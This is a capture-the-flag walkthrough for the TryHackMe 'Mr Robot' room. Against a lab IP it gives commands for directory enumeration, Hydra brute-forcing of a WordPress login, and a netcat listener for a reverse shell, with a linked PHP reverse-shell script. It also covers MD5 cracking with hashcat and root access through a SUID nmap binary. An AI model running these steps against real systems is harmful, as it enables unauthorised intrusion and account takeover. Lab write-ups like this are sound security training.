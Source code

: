 ```yaml
---
description: https://tryhackme.com/room/mrrobot
---
```


# Mr Robot CTF

### **What is key 1?**

```
nmap 10.10.237.105
gobuster dir -u http://10.10.237.105 \
             -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
             -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 12-24-00.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-16 09-17-57.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-16 09-32-16.png>)

```
curl http://10.10.237.105/robots
curl http://10.10.237.105/key-1-of-3.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 09-14-21.png>)

```
wget http://10.10.237.105/fsocity.dic
sort -u fsocity.dic -o fsocity.dic
```

### **What is key 2?**

```
hydra -L fsocity.dic -p password \
      'http-post-form://10.10.114.171/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username' \
      -I -f -V -t64
hydra -l ELLIOT  -P fsocity.dic \
      'http-post-form://10.10.114.171/wp-login.php:log=^USER^&pwd=^PASS^:incorrect' \
      -I -f -V -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 11-14-37.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-16 11-43-21.png>)

![](<../../.gitbook/assets/Screenshot from 2020-09-16 12-05-07.png>)

```
nc -nvlp 4444
$ find / -name key-2-of-3.txt 2>/dev/null
$ ls -l /home/robot
$ cat /home/robot/password.raw-md5
```

```
echo -n 'c3fcd3d76192e4007dfb496cca67e13b' > md5.txt
hashcat -a 0 -m 0 md5.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 12-08-05.png>)

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/$ su - robot
$ cat key-2-of-3.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 12-15-06.png>)

### **What is key 3?**

```
$ find / -perm -4000 2>/dev/null
$ /usr/local/bin/nmap -iL /root/key-3-of-3.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 12-21-25.png>)

## :link: Support Material

{% embed url="https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell/" %}

{% embed url="https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php" %}

